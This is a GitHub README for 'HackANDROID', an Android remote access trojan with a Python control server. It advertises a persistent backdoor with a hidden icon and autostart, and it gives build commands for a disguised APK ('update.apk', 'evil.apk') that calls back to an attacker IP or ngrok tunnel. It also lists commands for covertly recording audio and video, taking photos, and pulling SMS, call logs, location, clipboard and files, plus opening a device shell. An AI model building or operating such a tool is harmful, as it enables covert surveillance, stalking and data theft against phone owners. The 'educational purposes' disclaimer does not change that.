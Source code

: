 **Disclaimer** : This software is meant for educational purposes only. I don't feel responsible for any malicious use of the app.

# Things to know
This program is not made by me,I do some modefication in it for better performance.
This program run on Windows and Linux only.
Original creater id ---> https://github.com/karma9874
# HackANDROID

[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT) 
[![GitHub followers](https://img.shields.io/github/followers/hackprogrames?label=Follow&style=social)](https://github.com/hackprogrames)

HackANDROID is a tool designed to give the control of the android system remotely and retrieve informations from it. HackANDROID is a client/server application developed in Java Android for the client side and the Server is in Python.


## Features of HackANDROID
* Full persistent backdoor
* ~~Fully undetectable by any antivirus scanner [VirusTotal](https://www.virustotal.com/gui/file/e900b5d37ad8c8f79ca000b148253af04696a85fdfc245861cfb226dd86562df/detection)~~
* Invisible icon on install
* Light weight apk which runs 24*7 in background
* App starts automatically on boot up 
* Can record audio, video, take picture from both camera
* Browse call logs and SMS logs
* Get current location, sim card details ,ip, mac address of the device


## Prerequisites
HackANDROID requires Python (3.6+) and JAVA 8 .
## Installation
```
git clone https://github.com/Coders-World-Start/HackANDROID.git
pip install -r requirements.txt
```
## Usage (Windows and Linux)

* To get the control panel of the app dial `*#*#1337#*#*` (For now it has only two options `Restart Activity` and `Uninstall`)
> Note: In order to use this feature in some devices you need to enable the option `display pop-up windows running in background` from the settings.

### Available Modes
* `--proceed` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--bash` - getting an interactive shell of the device

### `proceed` mode

```
Usage:
  python androRAT.py --proceed --ngrok -i <IP> -p <Port> -a <name.apk>
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -a, --apk           Name for the apk file (optional by default its set to "update.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python androRAT.py --proceed -i <IP> -p <Port> -a <name.apk>
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `bash` mode
```
Usage:
  python HackANDROID.py --bash -i <IP> -p <Port>
  Flags:
    -i, --ip                Last IP address
    -p, --port              Last port number
```
After running the `bash` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh bash there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python HackANDROID.py --proceed --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python HackANDROID.py --proceed -i 192.169.x.x -p 8000 -o evil.apk```
* To get IP address :
'''ifconfig''' --> (In Linux Terminal)
'''ipconfig''' --> (In Window CMD)

* To get the interpreter:
```python HackANDROID.py --bash -i 0.0.0.0 -p 8000```


## License
HackANDROID is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information.


